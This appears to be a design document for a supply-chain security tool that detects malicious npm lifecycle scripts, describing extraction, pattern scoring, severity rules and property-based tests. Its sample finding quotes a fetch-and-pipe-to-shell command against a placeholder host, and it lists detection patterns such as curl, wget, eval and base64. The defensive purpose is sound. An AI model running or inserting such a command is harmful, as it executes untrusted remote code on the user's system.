

# Design Document: npm Script Analysis

## Overview

This feature extends the Multi-Agent Security Analysis System to detect and analyze malicious npm lifecycle scripts in package.json files. npm lifecycle scripts (preinstall, postinstall, etc.) execute automatically during package installation and are a common vector for supply chain attacks. The system will extract these scripts, analyze them for suspicious patterns, and generate security findings with appropriate severity levels and confidence scores.

The implementation will integrate with the existing SBOM tools and analysis pipeline, adding script analysis as part of the package.json parsing process.

## Architecture

### High-Level Flow

```
package.json → Extract Scripts → Analyze Patterns → Generate Findings → Include in Report
```

### Component Integration

1. **SBOM Tools** (`tools/sbom_tools.py`): Enhanced to extract and analyze scripts during package.json parsing
2. **Constants** (`constants.py`): Extended with npm script-specific malicious patterns
3. **Analysis Engine** (`analyze_supply_chain.py`): Receives script findings alongside other security findings
4. **Web Interface** (`templates/index.html`): Displays script findings grouped by package

### Data Flow



## Components and Interfaces

### 1. Script Extraction

**Location**: `tools/sbom_tools.py`

**Function**: `_extract_npm_packages(content: str) -> List[SBOMPackage]`

Enhanced to also return script findings:

```python
def _extract_npm_packages(content: str) -> Tuple[List[SBOMPackage], List[SecurityFinding]]:
    """
    Extract packages and analyze scripts from npm package.json.
    
    Returns:
        Tuple of (packages, script_findings)
    """
```

### 2. Script Analysis

**New Function**: `_analyze_npm_scripts(scripts: Dict[str, str], package_name: str) -> List[SecurityFinding]`

```python
def _analyze_npm_scripts(scripts: Dict[str, str], package_name: str) -> List[SecurityFinding]:
    """
    Analyze npm lifecycle scripts for malicious patterns.
    
    Args:
        scripts: Dictionary of script names to commands
        package_name: Name of the package being analyzed
        
    Returns:
        List of security findings for malicious scripts
    """
```

### 3. Pattern Detection

**New Function**: `_detect_script_patterns(script_content: str) -> Dict[str, Any]`

```python
def _detect_script_patterns(script_content: str) -> Dict[str, Any]:
    """
    Detect suspicious patterns in a script.
    
    Returns:
        Dictionary with:
        - patterns: List of detected pattern types
        - severity: Calculated severity level
        - confidence: Confidence score (0.0-1.0)
        - evidence: List of evidence strings
    """
```

## Data Models

### Script Finding Structure

```python
SecurityFinding(
    package=package_name,
    version="*",  # Script applies to all versions
    finding_type="malicious_script",
    severity="critical" | "high" | "medium" | "low",
    confidence=0.0-1.0,
    evidence=[
        "Script: preinstall",
        "Command: curl http://malicious.test/evil.sh | sh",
        "Pattern: remote_code_execution",
        "Pattern: pipe_to_shell"
    ],
    recommendations=[
        "Remove this package immediately",
        "Review the script content manually",
        "Check for signs of system compromise"
    ],
    source="npm_script_analysis"
)
```

### Pattern Detection Result

```python
{
    "patterns": ["remote_code_execution", "pipe_to_shell", "suspicious_url"],
    "severity": "critical",
    "confidence": 0.95,
    "evidence": [
        "Downloads and executes remote code",
        "Uses pipe to shell (|sh)",
        "Connects to suspicious domain"
    ]
}
```

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system-essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Property 1: Complete Script Extraction
*For any* package.json file containing a scripts field, all lifecycle scripts (preinstall, postinstall, preuninstall, postuninstall, install, uninstall) should be extracted and analyzed.
**Validates: Requirements 1.1**

### Property 2: Network Pattern Detection
*For any* script containing network request patterns (curl, wget, http requests), the system should flag it as a security finding.
**Validates: Requirements 1.2**

### Property 3: Command Execution Detection
*For any* script containing command execution patterns (eval, exec, system calls), the system should flag it as a security finding.
**Validates: Requirements 1.3**

### Property 4: Obfuscation Detection
*For any* script containing obfuscation patterns (base64, hex encoding, string manipulation), the system should flag it as a security finding.
**Validates: Requirements 1.4**

### Property 5: Confidence Monotonicity
*For any* script, if it matches N suspicious patterns, adding another suspicious pattern should result in a confidence score greater than or equal to the original score.
**Validates: Requirements 1.5**

### Property 6: Evidence Completeness
*For any* malicious script finding, the evidence list should contain the script name and at least one pattern description.
**Validates: Requirements 2.1, 2.2**

### Property 7: Severity Assignment
*For any* script containing remote code execution patterns, the severity should be "critical".
**Validates: Requirements 2.3, 3.1**

### Property 8: Recommendation Presence
*For any* malicious script finding, the recommendations list should be non-empty.
**Validates: Requirements 2.4**

### Property 9: Confidence Bounds
*For any* malicious script finding, the confidence score should be between 0.0 and 1.0 inclusive.
**Validates: Requirements 2.5**

### Property 10: Encoded Command Severity
*For any* script containing base64 or hex encoded commands, the severity should be "high" or "critical".
**Validates: Requirements 3.2**

### Property 11: System Modification Severity
*For any* script modifying system files or environment variables, the severity should be "high" or "critical".
**Validates: Requirements 3.3**

### Property 12: Suspicious Domain Severity
*For any* script making requests to suspicious domains (.tk, .ml, .ga, etc.), the severity should be "medium" or higher.
**Validates: Requirements 3.4**

### Property 13: Dynamic Execution Severity
*For any* script using eval or similar dynamic execution, the severity should be "medium" or higher.
**Validates: Requirements 3.5**

### Property 14: Benign Build Commands
*For any* script containing only standard build commands (npm run, tsc, webpack, rollup) without suspicious patterns, it should not be flagged as malicious.
**Validates: Requirements 4.1**

### Property 15: Development Tool Recognition
*For any* script using only common development tools (eslint, prettier, jest, mocha) without suspicious patterns, it should not be flagged as malicious.
**Validates: Requirements 4.2**

### Property 16: Legitimate File Operations
*For any* script performing only legitimate file operations (mkdir, cp, mv with safe paths) without suspicious patterns, it should not be flagged as malicious.
**Validates: Requirements 4.3**

### Property 17: Finding Type Consistency
*For any* script-related security finding, the finding_type field should be "malicious_script".
**Validates: Requirements 5.3**

### Property 18: Package Association
*For any* script finding, the package field should match the package name from the package.json file.
**Validates: Requirements 5.2**

## Error Handling

### Invalid JSON
- Catch `json.JSONDecodeError` during package.json parsing
- Log error and skip script analysis for that file
- Continue with other package files

### Missing Scripts Field
- If package.json has no scripts field, return empty findings list
- This is not an error condition

### Malformed Script Commands
- If a script value is not a string, log warning and skip
- Continue analyzing other scripts

### Pattern Detection Failures
- If regex matching fails, log error but continue
- Return partial results with available patterns

## Testing Strategy

### Unit Tests

1. **Script Extraction Tests**
   - Test extraction of all lifecycle script types
   - Test handling of missing scripts field
   - Test handling of non-string script values

2. **Pattern Detection Tests**
   - Test detection of each malicious pattern type
   - Test severity calculation for different patterns
   - Test confidence score calculation

3. **False Positive Tests**
   - Test that benign build scripts are not flagged
   - Test that common dev tools are not flagged
   - Test that legitimate file operations are not flagged

4. **Integration Tests**
   - Test end-to-end analysis of package.json with malicious scripts
   - Test that findings appear in final report
   - Test that findings are grouped by package

### Property-Based Tests

The system will use **Hypothesis** (Python's property-based testing library) to verify correctness properties. Each property test will run a minimum of 100 iterations with randomly generated inputs.

**Property Test Structure**:
```python
from hypothesis import given, strategies as st

@given(st.text())
def test_property_name(generated_input):
    # Test implementation
    assert property_holds(generated_input)
```

**Test Generators**:
- `package_json_strategy`: Generates valid package.json structures
- `script_command_strategy`: Generates various script commands
- `malicious_pattern_strategy`: Generates commands with known malicious patterns
- `benign_pattern_strategy`: Generates safe build commands

Each property-based test will be tagged with a comment referencing the design document property:
```python
# Feature: npm-script-analysis, Property 1: Complete Script Extraction
```

### Test Coverage Goals

- 90%+ code coverage for new functions
- All 18 correctness properties verified by property-based tests
- Edge cases covered by unit tests
- Integration with existing test suite

## Implementation Notes

### Pattern Priority

Patterns are evaluated in order of severity:
1. Remote code execution (critical)
2. Obfuscation + execution (critical)
3. System modification (high)
4. Encoded commands (high)
5. Suspicious network requests (medium-high)
6. Dynamic execution (medium)

### Confidence Calculation

```python
base_confidence = 0.5
confidence += 0.2 * len(critical_patterns)
confidence += 0.15 * len(high_patterns)
confidence += 0.1 * len(medium_patterns)
confidence -= 0.1 * len(benign_patterns)
confidence = max(0.0, min(1.0, confidence))
```

### Performance Considerations

- Script analysis adds minimal overhead (< 10ms per package.json)
- Regex patterns are compiled once and reused
- Analysis runs synchronously during SBOM generation
- No external API calls required

## Security Considerations

### False Negatives

- Heavily obfuscated scripts may evade detection
- Novel attack patterns not in our database will be missed
- Mitigation: Regular pattern updates, user feedback loop

### False Positives

- Some legitimate scripts may trigger warnings
- Mitigation: Whitelist common patterns, confidence scoring
- Users can review and dismiss false positives

### Privacy

- Script content is analyzed locally
- No script content sent to external services
- Findings stored only in local output files
